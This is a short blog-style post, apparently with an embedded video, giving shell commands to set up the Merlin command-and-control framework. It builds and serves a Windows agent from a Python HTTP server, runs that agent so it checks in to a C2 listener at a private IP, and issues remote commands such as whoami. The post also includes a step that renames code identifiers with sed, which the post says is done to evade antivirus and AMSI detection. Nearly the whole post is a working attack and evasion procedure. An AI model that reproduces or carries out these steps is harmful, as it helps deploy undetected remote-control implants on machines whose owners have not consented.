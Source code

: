 ```yaml
---
layout: post
youtubeId: 4J-6mUb4ORQ
---
```

To use Merlin as a Command & Control server, which is written in golang, we should take the following steps:

{% highlight ruby %}
go version	-> version should be 1.13 or higher
apt update && sudo apt install golang-go
git clone https://github.com/Ne0nd0g/merlin && cd merlin


## Now replace ExecuteShell for MiniMice to trick virusscanners and AMSI
## and also hide Ne0nd0g for AMSI, as this is the developer
find . -name '*.go' -type f -print0 | xargs -0 sed -i 's/ExecuteShell/MiniMice/g'
find . -name '*.go' -type f -print0 | xargs -0 sed -i 's/executeShell/miniMice/g'
find . -name '*.go' -type f -print0 | xargs -0 sed -i 's/github.com\/Ne0nd0g\/merlin/github.com\/mini\/heyho/g'
sed -i 's/github.com\/Ne0nd0g\/merlin/github.com\/mini\/heyho/g' go.mod


## Create an output directory and build the Merlin agent
make agent-windows DIR="./output"

## Start the Merlin server listener
go run cmd/merlinserver/main.go -i 0.0.0.0 -p 8443 -psk strongPassphraseWhaterYouWant

## Run a python HTTP Server to copy the Merlin agent to the Windows system
cd /mnt/tools/merlin/output/
python -m SimpleHTTPServer 80

## Run the Merlin agent on the Windows host
merlinAgent-Windows-x64.exe -url https://172.16.216.135:8443 -psk strongPassphraseWhaterYouWant
[+]New authenticated agent checkin for a0c86f61-4f21-4e63-9856-b73d7b8fbf3a

## Now we can interact with the agent:
interact a0c86f61-4f21-4e63-9856-b73d7b8fbf3a

help
ls
info
cmd whoami

{% endhighlight %}

{% include youtubePlayer.html id=page.youtubeId %}

